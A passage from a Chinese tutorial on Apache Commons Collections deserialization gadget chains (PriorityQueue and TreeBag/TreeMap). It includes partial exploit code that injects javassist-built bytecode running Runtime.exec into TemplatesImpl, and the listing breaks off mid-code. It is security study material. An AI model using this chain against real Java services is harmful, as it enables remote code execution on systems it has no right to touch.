 ​`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl cannot be cast to java.lang.Comparable`​

而利用反射时

```java
    Field field3=queue.getClass().getDeclaredField("queue");//获取queue的queue字段
    field3.setAccessible(true);//暴力反射
    field3.set(queue,new Object[]{templatesImpl,templatesImpl});//设置queue的queue字段内容Object数组，内容为templatesImpl
```

Java并不会检查是否合法，而在反序列化时，由于payload执行早于排序，因此不影响。

##### quenue反序列化

Q：

PriorityQueue的queue已经使用transient关键字修饰，为什么还能从流中反序列化queue中的元素？

A：

[序列化规范](https://docs.oracle.com/javase/8/docs/platform/serialization/spec/output.html#a861 "序列化规范")允许待序列化的类实现writeObject方法，实现对自己的成员控制权。

### TreeBag&TreeMap链

#### Exp展示

```java
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.bag.TreeBag;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsCollections2T {
    public static void main(String[] args) throws Exception {
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        ClassPool classPool=ClassPool.getDefault();//返回默认的类池
        classPool.appendClassPath(AbstractTranslet);//添加AbstractTranslet的搜索路径
        CtClass payload=classPool.makeClass("CommonsCollections22222222222");//创建一个新的public类
        payload.setSuperclass(classPool.get(AbstractTranslet));  //设置前面创建的CommonsCollections22222222222类的父类为AbstractTranslet
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");"); //创建一个空的类初始化，设置构造函数主体为runtime

        byte[] bytes=payload.toBytecode();//转换为byte数组

        Object templatesImpl=Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();//反射创建TemplatesImpl
        Field field=templatesImpl.getClass().getDeclaredField("_bytecodes");//反射获取templatesImpl的_bytecodes字段
        field.setAccessible(true);//暴力反射
        field.set(templatesImpl,new byte[][]{bytes});//将templatesImpl上的_bytecodes字段设置为runtime的byte数组

        Field field1=templatesImpl.getClass().getDeclaredField("_name");//反射获取templatesImpl的_name字段
        field1.setAccessible(true);//暴力反射
```